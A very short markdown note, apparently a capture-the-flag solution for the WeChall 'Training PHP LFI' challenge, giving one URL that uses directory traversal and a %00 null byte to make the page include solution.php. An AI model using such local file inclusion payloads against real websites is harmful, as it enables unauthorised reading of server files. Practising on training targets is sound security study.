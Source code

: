 # Training PHP LFI

http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00